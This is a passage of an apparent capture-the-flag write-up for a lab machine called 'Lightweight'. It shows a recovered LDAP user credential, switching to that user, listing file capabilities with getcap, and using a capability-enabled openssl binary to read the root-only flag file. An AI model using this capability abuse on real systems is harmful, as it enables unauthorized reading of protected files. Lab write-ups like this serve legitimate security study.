 ~~~
ldap_set_option($ds, LDAP_OPT_PROTOCOL_VERSION, 3);
ldap_set_option($ds, LDAP_OPT_REFERRALS, 0);
ldap_set_option($ds, LDAP_OPT_NETWORK_TIMEOUT, 10);
{% endhighlight %}
{% highlight shell %}
ldapuser1:f3ca9d298a553da117442deeb6fa932d
{% endhighlight %}

Switch to ldapuser1 with su command.
{% highlight shell %}
[10.10.14.4@lightweight ~]$ su ldapuser1
Password: 
[ldapuser1@lightweight 10.10.14.4]$
{% endhighlight %}

We have some executable in the home directory.
{% highlight shell %}
[ldapuser1@lightweight ~]$ ls -l
total 1484
-rw-rw-r--. 1 ldapuser1 ldapuser1   9714 Jun 15  2018 capture.pcap
-rw-rw-r--. 1 ldapuser1 ldapuser1    646 Jun 15  2018 ldapTLS.php
-rwxr-xr-x. 1 ldapuser1 ldapuser1 555296 Jun 13  2018 openssl
-rwxr-xr-x. 1 ldapuser1 ldapuser1 942304 Jun 13  2018 tcpdump
[ldapuser1@lightweight ~]$ 
{% endhighlight %}

The executable "openssl" has "effective" and "permitted".
{% highlight shell %}
[ldapuser1@lightweight ~]$ getcap -r / 2>/dev/null
/usr/bin/ping = cap_net_admin,cap_net_raw+p
/usr/sbin/mtr = cap_net_raw+ep
/usr/sbin/suexec = cap_setgid,cap_setuid+ep
/usr/sbin/arping = cap_net_raw+p
/usr/sbin/clockdiff = cap_net_raw+p
/usr/sbin/tcpdump = cap_net_admin,cap_net_raw+ep
/home/ldapuser1/tcpdump = cap_net_admin,cap_net_raw+ep
/home/ldapuser1/openssl =ep
{% endhighlight %}

By following command, we can achieve root.txt
{% highlight shell %}
[ldapuser1@lightweight ~]$ ./openssl base64 -in /root/root.txt | base64 -d
f1d4e309c5a6b3fffff74a8f4b2135fa
{% endhighlight %}
